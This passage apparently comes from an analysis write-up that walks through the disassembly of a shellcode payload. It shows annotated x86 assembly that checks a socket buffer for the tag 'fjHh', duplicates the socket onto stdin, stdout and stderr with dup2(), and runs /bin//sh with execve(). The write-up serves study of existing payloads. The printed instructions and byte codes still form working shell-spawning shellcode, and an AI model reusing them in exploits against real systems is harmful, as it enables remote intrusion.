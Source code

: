 <figcaption class="figure-caption">If the first 4 bytes of the buffer of `recv()` aren't equal to the string `fjHh`, `recv()` is called with a file descriptor that **keeps increasing**</figcaption>

```nasm
                            ; save the file descriptor of the socket into EDI and EBX
00000020  5F                pop edi
00000021  89FB              mov ebx,edi

                            ; set ECX ot 0x00000002
00000023  6A02              push byte +0x2
00000025  59                pop ecx

                            ; call dup2() syscall
00000026  6A3F              push byte +0x3f
00000028  58                pop eax
00000029  CD80              int 0x80

                            ; decrease ECX by 1 and jump to the address 00000026
0000002B  49                dec ecx
0000002C  79F8              jns 0x26
```

<figcaption class="figure-caption">The last two instructions loop three times, from ECX=2 to ECX=0, in order to redirect respectively `stderr`, `stdout`, and `stdin` to the file descriptor of the socket</figcaption>

```nasm
                            ; set EAX to 0x0000000b
0000002E  6A0B              push byte +0xb
00000030  58                pop eax

                            ; 3rd argument of execve(): array of pointer to env. vars.
                            ; set EDX to 0 and push this value to the stack
                            ; it also acts as the string terminator of /bin//sh
00000031  99                cdq
00000032  52                push edx

                            ; push the following string to the stack: /bin//sh
00000033  682F2F7368        push dword 0x68732f2f
00000038  682F62696E        push dword 0x6e69622f

                            ; save the pointer to /bin//sh into EBX
0000003D  89E3              mov ebx,esp

                            ; push 0x00000000 to the stack
0000003F  52                push edx

                            ; 1st argument of execve(): path of the executable to run
                            ;   in this case: /bin//sh
00000040  53                push ebx

                            ; 2nd argument of execve():
                            ;   array of pointers to strings passed
                            ;   as the command-line arguments of /bin//sh
00000041  89E1              mov ecx,esp

                            ; call syscall 0xb (11): execve()
00000043  CD80              int 0x80
```
